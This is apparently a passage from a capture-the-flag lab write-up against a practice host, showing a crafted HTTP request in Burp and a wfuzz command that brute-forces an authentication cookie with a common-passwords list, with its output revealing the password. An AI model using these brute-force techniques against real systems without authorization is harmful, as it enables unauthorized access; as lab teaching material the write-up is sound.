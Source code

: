 
I’ll jump over to burp, find a GET on `/`, and send it to repeater. I’ll add a
cookie with password and an arbitrary value:

    
    
    GET / HTTP/1.1
    Host: 10.10.10.86:8080
    User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:60.0) Gecko/20100101 Firefox/60.0
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
    Accept-Language: en-US,en;q=0.5
    Accept-Encoding: gzip, deflate
    Connection: close
    Cookie: password=0xdf
    Upgrade-Insecure-Requests: 1
    

The response back has a new error message:

> Access denied: password authentication cookie incorrect

So I’ve found the cookie name. Now I need to try to find the value. I’ll use
`wfuzz` again, this time hiding 324 character responses with `--hh 324`, since
that’s the error message when the cookie is incorrect. This reveals that the
password is “secret”:

    
    
    root@kali# wfuzz -c -w /usr/share/seclists/Passwords/Common-Credentials/10k-most-common.txt -H "Cookie: password=FUZZ" --hh 324 http://10.10.10.86:8080
    
    ********************************************************
    * Wfuzz 2.3.1 - The Web Fuzzer                         *
    ********************************************************
    
    Target: http://10.10.10.86:8080/
    Total requests: 10000
    
    ==================================================================
    ID   Response   Lines      Word         Chars          Payload    
    ==================================================================
    
    000097:  C=200     21 L       48 W          540 Ch        "secret"
    
    Total time: 25.02369
    Processed Requests: 10000
    Filtered Requests: 9999
    Requests/sec.: 399.6212
    

#### Site

Once I set the cookie `password=secret`, I get a site with a form offering a
TCP socket test:

![1540819678302](https://0xdfimages.gitlab.io/img/1540819678302.png)

On entering values, it submits a GET to `/socket?port=[TCP port]&cmd=[Line to
send...]`.
